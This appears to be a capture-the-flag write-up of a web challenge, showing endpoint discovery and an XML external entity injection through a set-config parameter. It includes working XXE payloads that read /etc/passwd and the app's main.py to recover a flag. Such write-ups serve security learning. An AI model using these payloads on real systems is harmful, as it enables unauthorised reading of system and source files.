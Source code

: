Try out several subpath found the following is valid

* [1] http://34.74.105.127/a89232cf07/unlock
* [2] http://34.74.105.127/a89232cf07/admin

``[2]`` leads to admin panel

There is a comment in admin page indicates a path named 'get-config'
By checking
```
  http://34.74.105.127/a89232cf07/get-config
```
We found it leads to a page shows 
  'Front door'
same string at admin panel

View the source code of get-config, turns out it's actually an XML file.
looks like there are some logic to read the xml file and generate the admin page.

Test url
```
  http://34.74.105.127/a89232cf07/set-config
```
Got a ``Bad Request`` message which means this is a valid path.

Try to request with parameter 'data' and payload

```
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE mycode [<!ELEMENT config ANY ><!ENTITY mycode SYSTEM "/etc/passwd" >]><config><location>&mycode;</location></config>
```

It redirect to admin page with content of /etc/passwd.

Try out several paths, seems ``main.py`` is a valid one.
```
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE mycode [<!ELEMENT config ANY ><!ENTITY mycode SYSTEM "main.py" >]><config><location>&mycode;</location></config>
```

Found one flag in file main.py.
